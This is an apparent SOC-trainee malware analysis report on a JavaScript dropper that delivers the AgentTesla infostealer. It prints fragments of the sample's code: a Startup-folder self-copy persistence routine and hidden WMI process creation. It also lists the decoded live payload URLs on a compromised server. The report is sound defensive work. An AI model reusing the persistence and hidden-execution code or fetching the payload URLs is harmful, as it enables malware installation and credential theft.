# CASE-005 — AgentTesla JavaScript Dropper Malware Analysis


**Case ID:** CASE-005  
**Date:** 2026-07-13  
**Analyst:** Nwodu Robert  
**Severity:** Critical  
**Malware Family:** AgentTesla (Negasteal) / JS:Trojan.Cryxos  
**Classification:** JavaScript Dropper → Infostealer  

---

## 1. Executive Summary

This report documents the static and dynamic analysis of a malicious JavaScript dropper (Quotation.js) identified as a delivery mechanism for the AgentTesla infostealer family. The sample was sourced from MalwareBazaar and analyzed in a controlled, isolated environment using REMnux, Hybrid Analysis, and VirusTotal.

The sample employs heavy obfuscation (65,573 lines of junk code) to evade static detection, uses Windows Management Instrumentation (WMI) to silently execute a PowerShell script, achieves persistence via the Windows Startup folder, and downloads a disguised payload from a compromised Peruvian web server. VirusTotal flagged the sample at 31/60 engines with a Threat Score of 100/100.

---

## 2. Analysis Environment Setup

A dedicated, isolated analysis environment was configured to prevent accidental execution and host contamination:

| Component | Details |
|---|---|
| Analysis VM | REMnux Noble (Ubuntu 24.04 LTS) on VirtualBox |
| RAM | 2GB (reduced from default 4GB to preserve host resources) |
| Network Adapter | Host-only (isolated, no internet access) |
| Shared Clipboard | Disabled |
| Drag and Drop | Disabled |
| Shared Folders | None configured |
| Snapshot | Clean baseline snapshot taken before analysis |
| Sample Transfer | Python HTTP server on isolated host-only network |

**Rationale for precautions:**
- Host-only network prevents the sample from making real network connections if accidentally executed
- Disabled clipboard and drag-and-drop eliminates data leakage paths between host and VM
- Clean snapshot allows instant rollback to a safe state if needed
- Isolated transfer method avoids exposing the host file system to the VM

**Python HTTP server started on Windows host to serve sample over host-only network:**



**Sample pulled from host to REMnux via wget:**



---

## 3. Sample Information

| Field | Value |
|---|---|
| File Name | Quotation.js |
| File Type | JavaScript (Unicode text, UTF-8) |
| File Size | 1.57 MB (1,647 KB) |
| SHA256 | 856e540dd3765d8e1129070615d6104388a4f8c34179b520acfd87d9efa56643 |
| MIME Type | text/plain |
| Line Count | 65,573 |
| Word Count | 157,453 |
| Newlines | Windows CRLF (created on Windows) |
| First Seen | 2026-07-13 |
| Source | MalwareBazaar (bazaar.abuse.ch) |
| Malware Family | AgentTesla / Negasteal / JS:Trojan.Cryxos |

**Social Engineering Note:** The file is named `Quotation.js` to impersonate a legitimate business quotation document, a common lure used in phishing campaigns targeting businesses.

**Sample downloaded and saved to isolated folder on Windows host:**



**Sample extracted using 7zip with MalwareBazaar password (`-pinfected`):**



---

## 4. Static Analysis

### 4.1 File Identification (file command)

The `file` command was used to confirm the file type before analysis:



Result: `Unicode text, UTF-8 text, with CRLF line terminators` — confirms a Windows-created JavaScript text file.

### 4.2 File Metadata (ExifTool)

```
ExifTool Version Number : 13.50
File Name              : Quotation.js
File Size              : 1647 kB
File Type              : TXT
MIME Type              : text/plain
MIME Encoding          : utf-8
Newlines               : Windows CRLF
Line Count             : 65573
Word Count             : 157453
File Modification Date : 2026-07-13 05:26:30
```



### 4.3 Obfuscation Technique

The malware author employed a heavy junk code obfuscation technique to conceal the malicious payload and slow down analysis. The file contains 65,573 lines, the vast majority of which consist of meaningless, repetitive `switch(1)/case 1` blocks:

```javascript
switch (1) {
  case 1:
    this.windling = this.windling + "";
    break;
switch (1) {
  case 1:
    this.windling = this.windling + "";
    break;
```

**Purpose of this technique:**
- Buries real malicious code within thousands of lines of junk
- Causes analysis tools and human analysts to spend excessive time scrolling through meaningless code
- Exploits sandbox timeouts — sandboxes that hit time limits abandon analysis before reaching the real payload
- This technique directly maps to **MITRE ATT&CK T1027 — Obfuscated Files or Information**

The `windling` variable accumulates empty strings across thousands of iterations — pure computational noise with no functional purpose. This is also consistent with **API Hammering (T1497)**, confirmed by VirusTotal's behavior analysis.

### 4.4 Malicious Code Discovery

Using targeted `grep` to cut through the obfuscation revealed the following critical code sections:

**ActiveX objects, persistence mechanism, and Base64-encoded C2 payload (triumvir variable):**



**File System and Shell Access:**
```javascript
var sonorouslyooo = new ActiveXObject("Scripting.FileSystemObject");
var gallanillll = new ActiveXObject("WScript.Shell");
var deboard = WScript.ScriptFullName;
```

**Persistence Mechanism:**
```javascript
var startupe = gallanillll.SpecialFolders("Startup");
var untidy = startupe + "\\" + sonorouslyooo.GetFileName(deboard);
if (deboard.toLowerCase() !== untidy.toLowerCase()) {
    if (!sonorouslyooo.FileExists(untidy)) {
        sonorouslyooo.CopyFile(deboard, untidy);
    }
}
```
The script copies itself to the Windows Startup folder if not already present — achieving persistence on every system boot.

**PowerShell script dynamically assembled via `binotonous` string concatenation:**



**Base64-encoded payload array (`pessulus`) — encrypted chunks reassembled at runtime:**



**WMI environment variable evasion — decoded PowerShell stored in `$env:interossicular`:**



**WMI silent process creation — `ShowWindow = 0` ensures no visible window during execution:**



```javascript
var uralitize = oxaphosphines.SpawnInstance_();
uralitize.ShowWindow = 0;
var lipochromoid = bumbazes.Create(pentoxazone, null, uralitize, pinchbeck);
```

**WMI `GetObject` call and `SpawnInstance_` / `bumbazes.Create` execution chain:**



### 4.5 C2 URL Extraction (Base64 Decoding)

The C2 URL was encoded in Base64 within the script. Extracted and decoded using:

```bash
grep -o "aAB0AHQAcABz[^']*" Quotation.js | head -1 | base64 -d
```

**Decoded C2 URL revealed:**



**Result:**
```
https://magsa.com.pe/sorma/MSI PRO.png
```

The payload is disguised with a `.png` extension to masquerade as an image file while actually containing the AgentTesla executable — **MITRE ATT&CK T1036 — Masquerading**.

---

## 5. Dynamic Analysis

### 5.1 Hybrid Analysis (CrowdStrike Falcon Sandbox)

**Sample (ZIP container) submitted to Hybrid Analysis — initial submission showing "In Queue" status:**



**Sandbox run completed — ZIP bundled file `Quotation.js` identified as malicious:**



**Full analysis overview for Quotation.js — Threat Score 100/100, classified as Trojan.Cryxos.JS:**



| Field | Value |
|---|---|
| Environment | Windows 10 64-bit |
| Threat Score | 100/100 |
| Verdict | Malicious |
| Classification | JS:Trojan.Cryxos / Trojan.Cryxos.JS |
| AV Detection | 11% (obfuscation highly effective against AV) |
| MITRE ATT&CK Indicators | 222 mapped indicators |

**Risk assessment highlights:**
- **Persistence:** Creates new processes, writes data to remote process
- **Fingerprint:** Attempts to identify external IP address via ip-api.com
- **Evasive:** Marks file for deletion (self-cleanup after execution)
- **Exploit:** Contains escaped byte string (obfuscated shellcode/payload)
- **Network Behavior:** Contacts 2 domains and 2 hosts

**Network Analysis — DNS Requests and Contacted Hosts:**



| Domain | IP | Port | Process |
|---|---|---|---|
| ip-api.com | 208.95.112.1 | 80/TCP | caspol.exe (PID: 3760) |
| magsa.com.pe | 192.185.37.239 | 443/TCP | powershell.exe (PID: 2008) |

**Note on `caspol.exe`:** The use of `caspol.exe` (Code Access Security Policy tool, a legitimate Windows binary) to contact ip-api.com is a Living-off-the-Land Binary (LOLBin) technique — **MITRE ATT&CK T1218 — System Binary Proxy Execution**.

### 5.2 VirusTotal Multi-Sandbox Analysis

**VirusTotal Detection — 31/60 engines flagged as malicious:**



| Field | Value |
|---|---|
| Detection Rate | 31/60 engines |
| Popular Threat Label | trojan.cryxos/negasteal |
| Threat Categories | trojan, downloader |
| Family Labels | cryxos, negasteal, yaggmz |
| Community Score | -11 |

**Selected AV vendor detections:**

| Vendor | Detection Name |
|---|---|
| BitDefender | JS:Trojan.Cryxos.16417 |
| ESET-NOD32 | JS/TrojanDownloader.Agent.AENF Trojan |
| TrendMicro | TrojanSpy.JS.NEGASTEAL.YXGGMZ |
| Microsoft | TrojanWin32/Ravartarlnfn |
| Kaspersky | HEUR:Trojan.Script.Generic |
| McAfee Scanner | Trojan.Script/Worms.JEI1 |
| Symantec | JS:Downloader:gen:195 |

**VirusTotal Behavior Analysis — Activity Summary:**



**Behavior Tags:** calls-wmi, checks-network-adapters, idle, long-sleeps, macro-powershell, obfuscated, persistence

**Sandboxes:** CAPE Sandbox, Yomi Hunter, Zenbox — both CAPE and Yomi Hunter independently flagged as MALWARE.

**Activity Summary counters:**
- Detections: 2 MALWARE
- Mitre Signatures: 48 MEDIUM, 26 LOW, 15 INFO
- IDS Rules: 1 HIGH, 2 MEDIUM
- Sigma Rules: 1 CRITICAL, 2 HIGH, 7 MEDIUM, 1 LOW
- Dropped Files: 2 OTHER, 1 TEXT
- Network Comms: 3 HTTP, 2 DNS, 2 IP, 1 JA3

**VirusTotal MITRE ATT&CK Techniques Matrix:**



**HTTP Requests observed:**
```
GET http://ip-api.com/line/?fields=hosting
GET https://magsa.com.pe/sorma/MSI_PRO.png
GET https://magsa.com.pe/sorma/img_162829.png
```

**Note:** Dynamic analysis revealed a second payload URL (`img_162829.png`) not identified during static analysis, demonstrating the value of combining both analysis methods.

**DNS Resolutions:** ip-api.com → 208.95.112.1, magsa.com.pe → 192.185.37.239

**IP Traffic:**
- TCP 192.185.37.239:443 — powershell.exe → magsa.com.pe (C2 payload download)
- TCP 208.95.112.1:80 — caspol.exe → ip-api.com (victim geolocation check)

**JA3 TLS Fingerprint:** `3b5074b1b6d033e5620f69f8f700ff0e`

**TLS SNI:** magsa.com.pe

**Crowdsourced Sigma Rule Matches:**
- Drops script at startup location (CRITICAL)
- Suspicious Startup Folder Persistence (HIGH)
- WScript or CScript Dropper (HIGH)
- WmiPrvSE Spawned PowerShell (HIGH)
- Suspicious DNS Query for IP Lookup (MEDIUM)

**Crowdsourced IDS Rule Matches:**
- ET MALWARE Common Stealer Behavior (HIGH)
- ET INFO External IP Lookup Domain in DNS Lookup (MEDIUM)
- ET POLICY External IP Lookup ip-api.com (MEDIUM)

---

## 6. Attack Chain

```
Phishing Email
    └── Quotation.js attachment (social engineering lure)
        └── WScript executes JS dropper
            └── Copies itself to Startup folder (Persistence — T1547.001)
                └── Builds PowerShell script in memory (binotonous variable)
                    └── Stores script in $env:interossicular (Evasion — T1027)
                        └── WMI spawns hidden PowerShell process (T1047 + T1564.003)
                            └── caspol.exe queries ip-api.com (Victim recon — T1016)
                                └── PowerShell downloads MSI_PRO.png from magsa.com.pe (T1105)
                                    └── Decrypts and executes AgentTesla payload
                                        └── AgentTesla steals credentials, keystrokes, screenshots
```

---

## 7. Indicators of Compromise (IOCs)

### File Indicators
| Type | Value |
|---|---|
| SHA256 | 856e540dd3765d8e1129070615d6104388a4f8c34179b520acfd87d9efa56643 |
| File Name | Quotation.js |
| File Type | JavaScript |
| File Size | 1.57 MB |

### Network Indicators
| Type | Value |
|---|---|
| C2 Domain | magsa.com.pe |
| C2 IP | 192.185.37.239 |
| Payload URL 1 | https://magsa.com.pe/sorma/MSI_PRO.png |
| Payload URL 2 | https://magsa.com.pe/sorma/img_162829.png |
| Geolocation URL | http://ip-api.com/line/?fields=hosting |
| JA3 Fingerprint | 3b5074b1b6d033e5620f69f8f700ff0e |
| TLS SNI | magsa.com.pe |

### Host Indicators
| Type | Value |
|---|---|
| Persistence Location | %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\ |
| Dropped Files | 2 files (OTHER), 1 TEXT file |
| Environment Variable | interossicular (stores obfuscated PowerShell) |
| LOLBin Abused | caspol.exe (geolocation check via ip-api.com) |

---

## 8. MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence |
|---|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | JS file disguised as Quotation |
| Execution | T1059.007 | JavaScript | WScript executes Quotation.js |
| Execution | T1059.001 | PowerShell | WMI spawns hidden PowerShell |
| Execution | T1047 | Windows Management Instrumentation | WMI used for silent process creation |
| Execution | T1204.002 | Malicious File | User opens JS attachment |
| Execution | T1218 | System Binary Proxy Execution | caspol.exe used for geolocation check |
| Persistence | T1547.001 | Registry Run Keys / Startup Folder | Script copies itself to Startup folder |
| Defense Evasion | T1027 | Obfuscated Files or Information | 65K lines of junk switch/case code |
| Defense Evasion | T1140 | Deobfuscate/Decode Files or Information | Base64 encoded C2 URL decoded at runtime |
| Defense Evasion | T1564.003 | Hidden Window | ShowWindow = 0 during PowerShell execution |
| Defense Evasion | T1036 | Masquerading | Payload disguised as .png image |
| Defense Evasion | T1562.001 | Disable or Modify Tools | AMSI bypass attempted |
| Defense Evasion | T1497 | Virtualization/Sandbox Evasion | API hammering, long sleeps, system checks |
| Defense Evasion | T1070.004 | File Deletion | Marks file for deletion after execution |
| Discovery | T1016 | System Network Configuration Discovery | Queries ip-api.com for external IP/hosting status |
| Discovery | T1082 | System Information Discovery | Enumerates OS, hardware, locale |
| Discovery | T1057 | Process Discovery | Enumerates running processes |
| Credential Access | T1003 | OS Credential Dumping | AgentTesla credential harvesting |
| Credential Access | T1555 | Credentials from Password Stores | Browser/email credential theft |
| Command and Control | T1071.001 | Web Protocols | HTTPS C2 communication |
| Command and Control | T1573 | Encrypted Channel | TLS encrypted C2 traffic (JA3: 3b5074b1b6d033e5620f69f8f700ff0e) |
| Command and Control | T1105 | Ingress Tool Transfer | Downloads payload from magsa.com.pe |
| Exfiltration | T1048.003 | Exfiltration Over Unencrypted Protocol | Data transmitted in plaintext |

---

## 9. PICERL Incident Response Playbook

### Preparation
- Maintain updated endpoint detection rules for WScript/CScript execution of JS files from email attachments
- Deploy email gateway rules to block or sandbox `.js` file attachments
- Enable PowerShell Script Block Logging and Module Logging
- Monitor Startup folder for unauthorized file creation
- Implement JA3 fingerprint blocking for known malicious TLS fingerprints
- Add `caspol.exe` outbound network connections to watchlist (LOLBin abuse indicator)

### Identification
- Alert triggers: JS file executed via WScript from temp/download directory
- Alert triggers: PowerShell spawned as child of WmiPrvSE.exe
- Alert triggers: `caspol.exe` making outbound DNS/HTTP requests
- Alert triggers: DNS query to ip-api.com from non-browser process
- Alert triggers: HTTPS connection to magsa.com.pe or IP 192.185.37.239
- Alert triggers: File written to Windows Startup folder by script engine
- Collect: Process tree, network connections, startup folder contents, PowerShell Script Block logs, environment variables

### Containment
- Isolate affected endpoint from network immediately
- Block C2 domain `magsa.com.pe` and IP `192.185.37.239` at firewall/proxy
- Block payload URLs at web gateway
- Disable WScript/CScript on endpoints that do not require it via GPO
- Preserve memory dump and disk image for forensic analysis

### Eradication
- Remove `Quotation.js` from Startup folder and any other discovered locations
- Remove any files dropped during execution (2 OTHER + 1 TEXT per sandbox report)
- Scan for AgentTesla persistence mechanisms (registry, scheduled tasks)
- Reset all credentials that may have been harvested:
  - Browser saved passwords
  - Email client credentials
  - FTP/VPN credentials
- Clear malicious environment variable (`interossicular`)

### Recovery
- Restore affected systems from clean backup if credential theft confirmed
- Re-image endpoint if full compromise suspected
- Force password resets for all accounts accessible from affected system
- Monitor network traffic for continued C2 communication post-cleanup
- Verify Startup folder is clean after remediation

### Lessons Learned
- Review email gateway configuration for JS attachment handling
- Assess whether PowerShell Script Block Logging was capturing sufficient detail
- Evaluate endpoint detection coverage for WMI-based execution and LOLBin abuse
- Update detection rules based on IOCs from this case
- Train users on recognizing malicious email attachments disguised as business documents

---

## 10. Key Findings Summary

1. **Social Engineering** — File named `Quotation.js` to impersonate a legitimate business document
2. **Heavy Obfuscation** — 65,573 lines of junk code used to evade static analysis and sandbox timeouts
3. **Multi-Stage Delivery** — JS dropper → PowerShell → AgentTesla payload
4. **Sandbox Evasion** — API hammering, long sleeps, system checks, and AMSI bypass
5. **Persistence** — Startup folder self-copy ensures execution on every boot
6. **C2 Infrastructure** — Compromised legitimate Peruvian website (magsa.com.pe) used to host payload
7. **Payload Masquerading** — Executable payload disguised as PNG image files to bypass proxy content inspection
8. **Victim Recon** — External IP geolocation via caspol.exe (LOLBin) performed before payload delivery
9. **Low AV Detection** — Only 11% detection rate in Hybrid Analysis; 31/60 on VirusTotal
10. **Multi-Payload** — Two payload URLs discovered during dynamic analysis (`MSI_PRO.png`, `img_162829.png`), suggesting staged infection

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| REMnux Noble (Ubuntu 24.04) | Static analysis environment |
| ExifTool 13.50 | File metadata extraction |
| file | File type identification |
| grep | Targeted keyword search through obfuscated code |
| base64 | C2 URL decoding |
| 7zip | Sample extraction (password: infected) |
| Hybrid Analysis (CrowdStrike) | Dynamic sandbox analysis — Falcon Sandbox |
| VirusTotal | Multi-engine detection and behavior analysis (CAPE, Yomi Hunter, Zenbox) |
| MalwareBazaar | Sample acquisition |

---

*Report prepared as part of home lab portfolio — CASE-005*  
*Analyst: Nwodu Robert | SOC Analyst Trainee | Luke Tech Limited*
